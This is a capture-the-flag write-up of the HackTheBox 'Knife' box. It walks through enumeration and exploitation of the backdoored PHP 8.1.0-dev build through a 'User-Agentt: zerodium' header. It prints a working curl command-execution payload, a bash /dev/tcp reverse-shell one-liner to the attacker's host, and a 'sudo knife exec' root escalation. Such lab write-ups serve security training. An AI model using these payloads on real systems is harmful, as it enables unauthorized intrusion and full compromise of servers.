





Knife is one of the easier boxes on HTB. There are only two significant steps involved. The first step is noticing a header in the HTTP request that contains a weird PHP version. Looking for this version online shows that this particular PHP version has a backdoor inserted when the PHP development servers were hacked back in March of 2021. Once on the box, there is a setuid binary called knife. This binary is part of Chef, which is a collection of DevOps tools. Going through the docs show that arbitrary code execution is possible to get access to the root user.

## Enumeration
I am kicking off a nmap scan to understand better what services and ports the target machine is exposing. With arguments`-sV` to enumerate versions, `-sC` to run all default scripts, and store the output in a file named `nmap.txt`. Dumping the output to a log file makes it easy to refer back to later, or if you want to embed it in your blog, as I do.

```sh
$ nmap -sC -sV -o nmap.txt 10.10.10.242

# Nmap 7.91 scan initiated Wed May 26 20:16:25 2021 as: nmap -sC -sV -v -o nmap.txt 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 26 20:16:34 2021 -- 1 IP address (1 host up) scanned in 9.23 seconds
```

The result shows an ssh server running on port `22` and a simple web server hosted by Apache on port  `80`. Opening this website in Firefox show the renderings of what I would call a pretty basic HTML website.



After combing through the website for a minute or two, I decided to start a couple of gobuster scans. None yielded anything fruitful and it wasn't until I checked my `nikto` scan for the second time that I noticed something interesting .

```sh
$ nikto -host 10.10.10.242 -output knife-nikto.txt

- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.242
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/8.1.0-dev
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HTWZVPJS Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ GET The site uses SSL and Expect-CT header is not present.
```

The `x-powered-by` header contains a rather interesting version, `PHP/8.1.0-dev`, indicating this is running a development build of PHP. On release day, Googling this version didn't yield many results. Hence, I took to [GitHub](https://github.com/php/php-src) and tried to find more information in the PHP source code itself. But this also wasn't very helpful. The repo didn't contain any tags for this specific version or any references to it whatsoever. Spending a lot more time trying different google searches, I bumped in this article from [artechnica](https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server). It talks about a supply chain attack against the PHP codebase where it got hacked, and a backdoor got inserted. Looking into it deeper many more articles talking about it https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/ and https://news-web.php.net/php.internals/113838.

Funny enough, searching for that version now directly leads to a working exploit on exploitdb:



In a nutshell, what happened is that two commits got added to the php-src repo under the account names of two well-known PHP developers. The assumption is that an attacker gained access to git.php.net server. Git by itself doesn't add any safety measures around identity, making it very easy for whoever wants to impersonate a commit as a specific user. Following this incident, PHP maintainers have decided to migrate the official PHP source code repository to GitHub as a precaution.

Given the code lives on GitHub and the open-source nature of PHP, I can have a look at the malicious commits [here](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R370) and [here](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a?branch=2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a&diff=unified#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R368-R370). The commits target one file, `ext/zlib/zlib.c`, adding 11 lines of code (all in green):

It’s fascinating to see others commenting on the commit, the first comment asking if the misspelling of `HTTP_USER_AGENT` as `HTTP_USER_AGENTT` was a mistake, and four lines later someone asking what it did, and someone else responding basically that’s it’s a backdoor, and how it works.



As the devs point out, to execute this backdoor, I’ll need a `User-Agentt` header that starts with “zerodium”, and whatever is after that will be executed as PHP code.

## Foothold
To test this out, I quickly prepare a `curl` command that will execute the `echo` command with some random text, hoping embedded in the output.

```sh
curl -XGET -H 'User-Agentt: zerodiumsystem("echo hello_15234_world");' 10.10.10.242 | grep hello
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5821    0  5821    0     0   111k      0 --:--:-- --:--:-- --:--:--  111k
hello_15234_world
```

It works! All I have to do now is replace the `echo` command with a reverse shell
 `curl -v -I -XGET -H 'User-Agentt: zerodiumsystem("bash -c \"bash -i >& /dev/tcp/10.10.14.9/6666 0>&1\"");' 10.10.10.242`. And I get a shell to extract the user flag:



## Privilege escalation
The user I got access to is called james, and it seems that this user can run the `knife` command as root.

```sh
james@knife:/dev/shm$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

james@knife:/dev/shm$
```

Knife is part of the [Chef](https://docs.chef.io/platform_overview) toolchain. Which is an infrastructure as code platform. Knife itself is a command line tool that according to the docs can be used to manage different parts of chef such as nodes, cookbooks, recipes, roles, environments, ...

Digging through the docs I learned that `knife` has an [exec](https://docs.chef.io/workstation/knife_exec/) command that allows running ruby code. At the time of the challenge `knife` didn't have a [GTFObins page](https://gtfobins.github.io/gtfobins/ruby/#sudo) yet. Because I quickly skimmed the docs I [downloaded](https://github.com/secjohn/ruby-shells/blob/master/revshell.rb) a Ruby reverse shell and executed the file with `knife` to get root access:



But with the `-e` it could have been as easy as:

```
james@knife:~$ sudo knife exec -E "exec '/bin/bash'"
root@knife:/home/james#
```
